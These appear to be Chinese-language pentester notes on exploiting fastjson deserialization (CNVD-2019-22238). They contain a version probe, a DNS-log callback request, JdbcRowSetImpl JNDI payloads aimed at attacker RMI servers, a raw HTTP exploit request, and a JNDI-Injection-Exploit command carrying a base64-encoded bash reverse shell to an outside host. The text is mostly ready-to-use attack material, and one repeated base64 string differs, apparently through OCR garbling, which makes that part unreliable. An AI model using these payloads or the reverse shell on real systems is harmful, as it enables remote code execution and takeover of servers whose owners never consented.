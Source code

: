 * 测试环境  https://github.com/amaz1ngday/fastjson-exp fastjson.war 配合Tomcat
* tool: rw_exp_java_fastjson_log4j_JNDIExploit1.4.rar

# 漏洞验证, bp 发包

fastjson-cnvd_2019_22238

探测 fastjson 版本 payload, post 请求发：

```json
{"@type": "java.lang.AutoCloseable"
```

```sh
# 1. 改POST
POST / HTTP/1.1
# 2. 改application/json
Content-Type: application/json

# 3. body里按下面填
{"x":{"@type":"java.net.Inet4Address","val":"2i9ehz.dnslog.cn"}}
```

使用 web_exp_reverse_shell_fastjson_jndi_JNDI-Injection-Exploit_fast.py

# payload2

```json
{
  "1": {
    "@type": "java.lang.Class",
    "val": "com.sun.rowset.JdbcRowSetImpl"
  },
  "2": {
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "rmi://192.168.1.13:1099/v4v9uh",
    "autoCommit": true
  }
}
```

## “不出⽹”打 fastjson1.2.48

```
POST /login HTTP/1.1
Host: 172.30.12.236:8080
Content-Length: 226
Content-Type: application/json

{
  "a": {
    "@type": "java.lang.Class",
    "val": "com.sun.rowset.JdbcRowSetImpl"
  },
  "b": {
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "rmi://172.30.12.5:1099/g5gz3u",
    "autoCommit": false
  }
}
```

```sh
root@web01:/tmp# java -jar JNDI-Injection-Exploit-1.0.jar -A "172.30.12.5" -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMZAuMTIuNS8yOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"
ADDRESS >> 172.30.12.5
COMMAND >> bash -c {echo,YmFzaCAtasA+JiAVZGV2L3RjcC8xNzIuMzAuMTIuNS8y0Tk50SAwPiYx}|{base64,-d}|{bash,-i}
```

[FastJson1.68&1.80 版本反序列化利用](https://mp.weixin.qq.com/s/0C5Bny9LxRP62lTq3jRrvQ)
[fastjson-BCEL 不出网打法原理分析](https://mp.weixin.qq.com/s/OwuCNHd9dU6sRMTwLnifCw)
